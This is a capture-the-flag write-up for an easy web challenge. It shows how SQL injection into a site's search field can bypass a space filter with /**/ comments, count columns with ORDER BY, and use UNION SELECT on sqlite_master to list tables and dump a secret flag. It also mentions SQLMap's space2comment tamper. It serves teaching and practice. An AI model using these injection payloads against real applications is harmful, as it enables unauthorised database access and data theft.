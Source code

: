 <img src="https://raw.githubusercontent.com/CTFae/media/main/brand/YT-banner.jpg" />

### Challenge: Secure Search Engine 1
### Category: Web
### Difficulty: Easy
<hr>

#### Challenge Description
In this challenge, the player is presented with a website that allows them to search for messages left by users. Their objective is to leak the flag from the database (achieve SQLi).

#### Challenge Screenshot
![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/super_secure_search_engine_1-1.png)

#### Solution
The website already shows us that spaces are not allowed, so we can assume they will be stripped from the backend. Let's test for SQLi by inserting a `'` into the search field:

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/super_secure_search_engine_1-2.png)

We see that immediately without any need for obfuscation or evasion, there is an SQLi vulnerability in this application. Doing further recon by viewing the source of the application shows an HTML comment:

```html
<div class="row pt-2">
		<div class="col">
			<!-- /?debug=1 -->
			<form method="GET" action="/">
				<div class="form-group">
					<input type="text" class="form-control" name="q" id="search"
						aria-describedby="search" placeholder="Try searching for user or admin or hacker..." />
					<small id="search" class="form-text text-muted">For security reasons, no spaces are allowed.</small>
				</div>
				<button type="submit" class="btn btn-success">Search</button>
			</form>
		</div>
	</div>
```

By adding this HTTP parameter `?debug=1` to our requests we can view how the SQL query looks like in the backend. Let's try it:

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/super_secure_search_engine_1-3.png)

We can see what the SQL query will look like in the backend! Now let us confirm that spaces are removed by searching for `test testing`:

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/super_secure_search_engine_1-4.png)

We can indeed see that spaces are removed. There are many ways to get around such a filter, and one of those ways is to replace every space with an empty SQL comment `/**/`. Let's try to inject an ` OR 1=1 --` into the application using this method:

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/super_secure_search_engine_1-5.png)

It worked! We can also see other comments by other users who were hidden from us. Now we can run an SQL injection attack!

**Note: I will be doing a manual SQL injection attack here, but you can easily use SQLMap with `--tamper=space2comment` and it will work.**

First, let's find out how many columns are in the query (since we will be using UNION based injection):

```sql
/**/ORDER/**/BY/**/5/**/--
```

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/super_secure_search_engine_1-6.png)

So we see from this error message that we have 3 columns in the query. Let's extract all the tables from the database:

```sql
UNION/**/SELECT/**/tbl_name,1,2/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/--
```

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/super_secure_search_engine_1-7.png)

We see that there is a table called `secret`, interesting. Let's enumerate the columns:

```sql
UNION/**/SELECT/**/sql,2,3/**/FROM/**/sqlite_master/**/WHERE/**/sql/**/NOT/**/NULL/**/AND/**/name='secret'/**/--
```

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/super_secure_search_engine_1-8.png)

There is a column called `flag`, let's dump it:

```sql
UNION/**/SELECT/**/flag,2,3/**/FROM/**/secret/**/--
```

#### Exploit Screenshot
![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/super_secure_search_engine_1-9.png)

<hr>

&copy; <a href="https://ctf.ae" target=_blank>CTF.ae</a>